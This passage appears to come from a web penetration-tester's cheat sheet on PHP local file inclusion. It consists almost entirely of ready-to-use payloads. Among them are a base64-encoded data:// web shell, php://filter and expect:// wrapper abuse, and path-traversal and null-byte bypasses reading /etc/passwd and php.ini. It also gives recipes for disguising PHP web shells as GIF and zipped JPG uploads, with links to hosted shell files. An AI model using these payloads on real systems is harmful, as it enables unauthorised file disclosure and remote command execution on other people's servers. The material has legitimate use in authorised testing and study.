 ### PHP Wrappers

```
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
expect://id
php://filter/read=convert.base64-encode/resource=index.php
php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini

```

### Filter PHP

- > Predefined Paths

preg_match('/^\.\/okay\/.+$/', $_GET['file'])

```
./okay/../../../../etc/passwd

```

### PHP Extension Bypass with Null Bytes

```
<https://site.com/index.php?file=/etc/passwd%00.php>

```

- > Removing .php

```
<https://site.com/index.php?file=index.p.phphp>

```

### LFI + File Upload

- > gif

```
echo 'GIF8<?php system($_GET["cmd"]); ?>' > ok.gif

```

https://github.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/blob/main/codes/webshells/shell.gif

-> Zip

1-

```
echo '<?php system($_GET["cmd"]); ?>' > ok.php && zip wshell_zip.jpg ok.php

```

2-

```
<http://ip/index.php?file=zip://./uploads/wshell_zip.jpg%23ok.php&cmd=id>
<https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/webshells/wshell_zip.jpg>

```
